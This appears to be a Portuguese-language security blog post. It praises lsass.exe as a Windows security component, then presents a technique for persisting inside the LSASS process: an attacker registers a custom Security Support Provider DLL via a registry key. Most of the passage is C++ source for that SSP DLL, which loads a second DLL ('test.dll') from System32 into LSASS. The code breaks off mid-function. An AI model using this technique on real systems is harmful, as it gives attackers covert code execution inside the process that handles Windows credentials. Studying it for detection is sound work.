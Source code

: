 Conclusão:

Em síntese, o lsass.exe é um componente fundamental nos sistemas operacionais Windows, desempenhando um papel vital na segurança e integridade do sistema. Ao gerenciar a autenticação de usuários e implementar políticas de segurança, o lsass.exe atua como um guardião incansável dos códigos de segurança, protegendo os sistemas contra acessos não autorizados. Portanto, compreender sua função e importância é essencial para garantir a segurança dos ambientes digitais em que confiamos para realizar nossas atividades cotidianas.

Agora vem a parte mais legal de tudo isso vamos explorar lsass,existem muitas tecnicas para explorar este proceso especifico assim como muitos outros processos mas hoje vou abordar uma tecnica se se beneficia de uma propia função interna do lsass ou seja não é bem uma vulnerabilidade....

com uma simples dll e uma chave de registro podemos persistir em lsass a ideia é usar implementa uma DLL de pacote de segurança (SSP)

este é o codigo:

~~~cpp

#include <ntstatus.h>
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#include <iostream>
#pragma comment(lib, "Secur32.lib")

// Função para carregar a DLL "test.dll" a partir do caminho "C:\\Windows\\System32\\"
int Go(void) {
    HMODULE hModule = LoadLibrary("c:\\Windows\\System32\\test.dll"); // carregar a sua DLL
    if (hModule == NULL) {
        std::cerr << "Erro ao carregar a DLL" << std::endl;
        return 1;
    }

    return 0;
}

// Inicializa o pacote de segurança.
NTSTATUS NTAPI SpInitialize(ULONG_PTR PackageId, PSECPKG_PARAMETERS Parameters, PLSA_SECPKG_FUNCTION_TABLE FunctionTable) {
    return 0;
}

// Encerra o pacote de segurança.
NTSTATUS NTAPI SpShutDown(void) {
    return 0;
}

// Retorna informações sobre o pacote de segurança.
NTSTATUS NTAPI SpGetInfo(PSecPkgInfoW PackageInfo) {
    PackageInfo->fCapabilities = SECPKG_FLAG_ACCEPT_WIN32_NAME | SECPKG_FLAG_CONNECTION;
    PackageInfo->wVersion = 1;
    PackageInfo->wRPCID = SECPKG_ID_NONE;
    PackageInfo->cbMaxToken = 0;
    PackageInfo->Name = (SEC_WCHAR *)L"AuthPkgSSP";
    PackageInfo->Comment = (SEC_WCHAR *)L"AuthPkgSSP";

    return 0;
}

// Função chamada pelo LSA (Local Security Authority) ao carregar a DLL do pacote de segurança.
NTSTATUS LsaApInitializePackage(ULONG AuthenticationPackageId,
~~~